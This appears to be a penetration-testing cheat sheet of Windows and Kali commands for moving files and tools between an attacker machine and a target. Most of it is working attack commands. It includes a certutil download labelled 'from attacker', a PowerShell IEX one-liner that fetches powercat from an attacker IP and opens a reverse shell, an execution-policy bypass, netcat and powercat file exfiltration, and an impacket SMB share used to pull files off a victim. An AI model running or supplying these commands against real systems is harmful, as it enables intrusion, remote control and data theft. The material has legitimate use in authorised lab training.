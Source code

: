 
#### CMD

`certutil -urlcache -split -f "http://ip/file" file` - download remote file from attacker

`powershell -FILE "file.ps1"` - execute file from cmd using powershell.

`powershell -ExecutionPolicy Bypass -File "C:\Scripts\MyScript.ps1"` - attempt to bypass execution policy and execute script.

#### PowerShell

methods used to download powercat.ps1 from attacker:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://ip/powercat.ps1","C:\path\powercat.ps1")
```

`nc -lnvp 443 > notes.txt` - run on attacking machine

`powercat -c 192.168.1.3 -p 443 -i notes.txt` - run on target machine to transfer files

`iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe` - shorthand for Invoke-WebRequest, downloads file from remote server

### Kali

`smbclient //192.168.223.195/share -c 'put config.Library-ms'` - transfer file via smbclient from kali to windows share.

##### host smb server on kali

1. `impacket-smbserver share $(pwd) -smb2support -user kali -password kali` host smb server on kali machine - USE ROOT TERMINAL

2. `net use \\kali-ip\share /u:username password` - use share on windows machine - this allows the windows machine to interact with the share on the kali box

3. `copy file.txt \\kali-ip\share\file.txt` - send file to kali smb share from windows poweshell/cmd
